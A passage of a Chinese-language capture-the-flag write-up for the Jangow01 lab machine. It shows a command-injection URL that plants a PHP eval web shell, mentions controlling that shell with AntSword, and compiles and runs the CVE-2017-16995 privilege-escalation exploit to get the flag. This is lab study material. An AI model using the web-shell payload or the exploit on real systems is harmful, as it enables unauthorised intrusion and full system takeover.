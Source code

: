 按理说接下来直接运行即可，但是这边的机器不知道咋回事，可能是按键映射有问题，搞不了，气死我了，传一个shell上去，利用菜刀进行控制吧。。。

尝试传入shell：

```shell
http://192.168.56.118/site/busque.php?buscar=echo '<?php @eval($_POST['hack']); ?>' >> hack.php
```

![image-20240123140306372](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626270.png)

![image-20240123140810914](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626271.png)

这是个十分愚蠢的错误，权限不足。。。。。（这里写的是 - 。。。。）

先进入前面一个目录，再使用tab补全出来，就会出现反斜杠了，然而我打开以后并不能进行执行：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626272.png" alt="image-20240123150803405" style="zoom:50%;" />

我真的无语了，查看别的师傅的wp，基本到这里就结束了，可能是我哪里操作有点问题，一直检测不出来，就蛮无语的。。。。（我是sb，这里减少权限了，我居然一直没看出来）

但是还是要做的，在本地编译好，放到蚁剑上上传一下试试：

![image-20240123152159711](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626273.png)

然后执行，失败。。。

经过我反复进行尝试最后发现，在`jangow01`操作时需要对`cve-2017-16995.c`进行更改权限才行。。。

```shell
chmod -x cve-2017-16995.c
gcc cve-2017-16995.c -o cve-2017-16995
./cve-2017-16995
```

（操作一直都是错的，居然可以得到flag..)

得到flag：

![aaa](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626274.png)

![image-20240123162426500](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626275.png)

真要命啊。。。但是总算功德圆满了。。。

（师傅们不要骂，这是打错了，sb了那一天。。这里所有的`chmod -x`都要换成`chmod +x`）
